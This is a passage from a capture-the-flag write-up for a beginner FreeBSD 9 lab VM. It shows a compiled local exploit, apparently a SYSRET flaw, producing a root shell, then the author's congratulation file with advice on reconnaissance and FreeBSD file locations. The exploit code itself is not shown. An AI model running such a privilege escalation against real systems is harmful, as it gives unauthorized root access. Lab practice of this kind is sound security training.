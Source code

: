     gcc exploit.c  
      
    ./a.out  
    [+] SYSRET FUCKUP!!  
    [+] Start Engine...  
    [+] Crotz...  
    [+] Crotz...  
    [+] Crotz...  
    [+] Woohoo!!!  
    whoami  
    root  
    

  
Where's our flag?_ _  
  

    
    
    cd /root  
    ls -al  
    total 88  
    drwxr-xr-x   2 root  wheel   512 Jan  7 00:57 .  
    drwxr-xr-x  18 root  wheel  1024 Jan  7 01:42 ..  
    -rw-r--r--   2 root  wheel   793 Jan  3  2012 .cshrc  
    -rw-------   1 root  wheel     0 Apr  6  2014 .history  
    -rw-r--r--   1 root  wheel   151 Jan  3  2012 .k5login  
    -rw-r--r--   1 root  wheel   299 Jan  3  2012 .login  
    -rw-------   1 root  wheel     1 Mar 30  2014 .mysql_history  
    -rw-r--r--   2 root  wheel   256 Jan  3  2012 .profile  
    ----------   1 root  wheel  2611 Apr  3  2014 congrats.txt  
    -rw-r--r--   1 root  wheel   885 Jan  7 16:49 folderMonitor.log  
    lrwxr-xr-x   1 root  wheel    25 Mar 29  2014 httpd-access.log -> /var/log/httpd-access.log  
    -rwxr-xr-x   1 root  wheel   574 Apr  3  2014 lazyClearLog.sh  
    -rwx------   1 root  wheel  2366 Mar 28  2014 monitor.py  
    lrwxr-xr-x   1 root  wheel    44 Mar 29  2014 ossec-alerts.log -> /usr/local/ossec-hids/logs/alerts/alerts.log  
    chmod 777 congrats.txt  
    cat congrats.txt   
    If you are reading this, it means you got root (or cheated).  
    Congratulations either way...  
      
    Hope you enjoyed this new VM of mine. As always, they are made for the beginner in   
    mind, and not meant for the seasoned pentester. However this does not mean one   
    can't enjoy them.  
      
    As with all my VMs, besides getting "root" on the system, the goal is to also  
    learn the basics skills needed to compromise a system. Most importantly, in my mind,  
    are information gathering & research. Anyone can throw massive amounts of exploits  
    and "hope" it works, but think about the traffic.. the logs... Best to take it  
    slow, and read up on the information you gathered and hopefully craft better  
    more targetted attacks.   
      
    For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.  
    Knowing the OS gives you any idea of what will work and what won't from the get go.  
    Default file locations are not the same on FreeBSD versus a Linux based distribution.  
    Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".  
    It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".  
    Finding and knowing these little details will greatly help during an attack. Of course  
    my examples are specific for this target, but the theory applies to all systems.  
      